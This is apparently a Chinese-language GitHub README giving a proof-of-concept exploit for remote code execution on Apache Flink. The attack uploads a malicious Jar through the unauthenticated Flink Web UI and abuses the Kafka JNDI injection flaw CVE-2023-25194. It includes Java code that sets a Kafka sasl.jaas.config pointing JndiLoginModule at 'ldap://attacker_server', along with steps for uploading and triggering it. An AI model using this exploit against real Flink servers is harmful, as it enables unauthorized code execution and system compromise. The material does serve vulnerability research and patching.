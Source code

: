 # Flink-Kafka-Vul
**Apache Flink远程代码执行漏洞。**

Apache Flink Web UI 默认没有用户权限认证，攻击者可以直接上传恶意Jar包，通过指定Kafka数据源连接属性，利用Apache Kafka JNDI注入(CVE-2023-25194)漏洞[1]攻击Flink，最终实现远程代码执行。

[1] https://kafka.apache.org/cve-list#CVE-2023-25194

# 利用

## 编写不安全的Flink程序

指定Kafka连接参数，其中`sasl.jaas.config`属性设置为`"com.sun.security.auth.module.JndiLoginModule required user.provider.url="ldap://attacker_server" useFirstPass="true" serviceName="x" debug="true" group.provider.url="xxx";`，服务器将连接到攻击者的 LDAP 服务器并反序列化 LDAP 响应。
```
// 设置执行环境
final StreamExecutionEnvironment env = StreamExecutionEnvironment.getExecutionEnvironment();
// 配置 Kafka 连接属性
Properties properties = new Properties();
properties.setProperty("bootstrap.servers", "192.168.25.147:9092");
properties.setProperty("group.id", "flink-kafka-demo");
properties.setProperty("security.protocol", "SASL_PLAINTEXT");
properties.setProperty("sasl.mechanism", "PLAIN");
properties.setProperty("sasl.jaas.config", "com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://attacker_server\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";");


FlinkKafkaConsumer<String> consumer = new FlinkKafkaConsumer("quickstart-events", new SimpleStringSchema(), properties);

// 从 Kafka 中读取数据
env.addSource(consumer).print();

// 执行程序
env.execute("Flink Kafka Demo");
```

## 触发漏洞

自行将Flink程序打包为Jar：

![](1.jpg)

在Apache Flink Dashboard上传恶意Jar，并提交任务：

![](2.jpg)

攻击者服务器：

![](3.jpg)

DNSlog服务器：

![](4.jpg)





